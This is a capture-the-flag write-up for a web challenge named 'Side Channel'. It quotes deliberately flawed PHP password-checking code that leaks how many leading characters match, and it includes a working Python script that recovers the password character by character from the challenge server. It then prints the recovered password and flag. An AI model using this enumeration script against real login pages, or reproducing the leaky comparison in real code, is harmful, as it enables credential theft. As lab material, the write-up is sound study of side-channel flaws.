 # Challenge Name: Side Channel


![date](https://img.shields.io/badge/date-14.03.2022-brightgreen.svg)  
![solved after CTF](https://img.shields.io/badge/solved-after%20CTF-red.svg)       
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-35-blue.svg)  

## Description

Created By **m4rc0s**

Now, some interesting bugs …

Every so often, you can find some bugs in the logic of the code, and occasionally, you can use time to extract the password.

**Code**

```php
  $password  = $_POST['password'];
    for ($i = 0; $i < min(strlen($real_password),strlen($password)); $i+=1) 
    {
        if($password[$i] == $real_password[$i]) 
        {
            $cpt++;
            sleep(1);
        }
        else 
        break;
    }
    if($cpt == strlen($real_password)) echo $FLAG;
    else echo "Incorrect Password, and you waited $cpt seconds";  
```

> Don't try brute-force

> You can solve the challenge manually or by using a script

> You can search Side Channel Attacks

http://18.132.195.71

[Acces to WebSite](http://18.132.195.71/)

## Detailed solution

Looking at the code we can see a for loop analyzing our input to compare it with password elements. 

```php
  $password  = $_POST['password'];
    for ($i = 0; $i < min(strlen($real_password),strlen($password)); $i+=1) 
    {
        if($password[$i] == $real_password[$i]) 
        {
            $cpt++;
            sleep(1);
        }
        else 
        break;
    }
    if($cpt == strlen($real_password)) echo $FLAG;
    else echo "Incorrect Password, and you waited $cpt seconds";  
```

- if we test a wrong charactere the page will return "you waited **0** seconds" 
  
![image](https://user-images.githubusercontent.com/72421091/158093241-993539d9-0216-4830-94a6-97161d45d961.png)

- if we have only one charactere right the page will return "you waited **1** seconds"

![image](https://user-images.githubusercontent.com/72421091/158093294-2b5d36de-301a-4906-b3ec-6ed2443a6658.png)

- after each charactere we found, the page will return you waited **X** seconds" with X equal to the size of our right input until the last charactere wich will return the **$FLAG**  

I created a python script to find the characters used in the password one by one. The funny thing i didn't now whats wrong for days until i realize that i forgot to add the  flag test cas :disappointed_relieved:

```python
import requests, string
from requests.structures import CaseInsensitiveDict

url = "http://18.132.195.71/"

headers = CaseInsensitiveDict()

headers["Connection"] = "keep-alive"
headers["Cache-Control"] = "max-age=0"
headers["Upgrade-Insecure-Requests"] = "1"
headers["Origin"] = "http://18.132.195.71"
headers["Content-Type"] = "application/x-www-form-urlencoded"
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"
headers["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"
headers["Referer"] = "http://18.132.195.71/"
headers["Accept-Language"] = "en-US,en;q=0.9,ar;q=0.8,fr;q=0.7"

t = 1
flag = ""

while(True):    
    for s in string.printable:
        tit = flag + s
        data = F"password={tit}"
        resp = requests.post(url, headers=headers, data=data)
        page = resp.content.decode("utf-8")
        if page.find(F"{t} seconds") != -1:
            flag += s
            print(flag)
            t = t+1
            break
        elif s == string.printable[-1]:
            print("Not found")
            exit()
        elif page.find("CRISIS{") != -1:
            flag += s
            print(F"the password is {flag}")
            print(page)
            exit()
```

Output

```
w
we
web
webs
webse
the password is websec
<html>
    <head>
       <meta charset="utf-8">
        <link rel="stylesheet" href="style.css" media="screen" type="text/css" />
    </head>
    <body>
        <div id="container">            
            <form action="" method="POST">
                <h3 class="text-center">Insert your Password</h3>
                
                <input type="text" placeholder="Enter the password" id=password name="password" required>

                <input type="submit" value="Submit">
            
            </form>
        </div>
    </body>
</html>

CRISIS{1c93286e3}
```
![image](https://user-images.githubusercontent.com/72421091/158093187-e2639b55-1627-41e5-8c81-5b031b395dc5.png)

## Flag

```
CRISIS{1c93286e3}
```


